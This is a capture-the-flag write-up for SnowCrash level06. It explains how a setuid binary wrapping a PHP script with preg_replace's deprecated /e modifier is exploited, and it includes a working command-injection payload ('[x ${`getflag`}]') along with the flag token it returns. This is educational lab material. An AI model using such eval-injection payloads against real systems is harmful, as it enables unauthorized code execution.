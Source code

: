 ## Level 06

## Clues

We have 2 file

```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
level06@SnowCrash:~$
```

Once again, the executable have the setuid bit set, so this will be our door for the flag06 password.

This executable seems to be the output of the level06.php file.

So in order to undurstand it, lets look at it

```php
#!/usr/bin/php
<?php

function y($m) 
{ 
    $m = preg_replace("/\./", " x ", $m); 
    $m = preg_replace("/@/", " y", $m); 
    return $m; 
}

function x($y, $z) 
{ 
    $a = file_get_contents($y); 
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); 
    $a = preg_replace("/\]/", ")", $a); 
    return $a; 
}

    $r = x($argv[1], $argv[2]); print $r;
?>

```

This is a php file, using regex, and it first call the function x with argv, take his content, and execute some regex parsing then prints out the result.

So lets trick it to make it execute the getflag command.


## Solution

We must undurstand this code in order to trick it, we see that there is many way to do so, so here is how i did.


In the code we see that it use a preg_replace with the flag ***e***

```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

After a brief search on internet we found this :

```
The e modifier is a deprecated regex modifier which allows you to use PHP code within your regular expression. This means that whatever you parse in will be evaluated as a part of your program.
```

This means that every occurence in the result of the regex :
```
"/(\[x (.*)\])/e"
```

Will be replaced, and then executed as a php code like so :

```
"y(\"\\2\")"
```

So in order to make it execute getflag, we are going to respect the regex pattern, so that it will receive the getflag command.

```
level06@SnowCrash:~$ cat /tmp/a
[x ${`getflag`}]
level06@SnowCrash:~$ ./level06 /tmp/a
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$
```

And we have our flag.

This one was very complicated, since i had to learn regex, especially when it is using a depreacted version of it.


## What i learned

Regex and their utility

More vulnerabilites to be aware of

More curiosity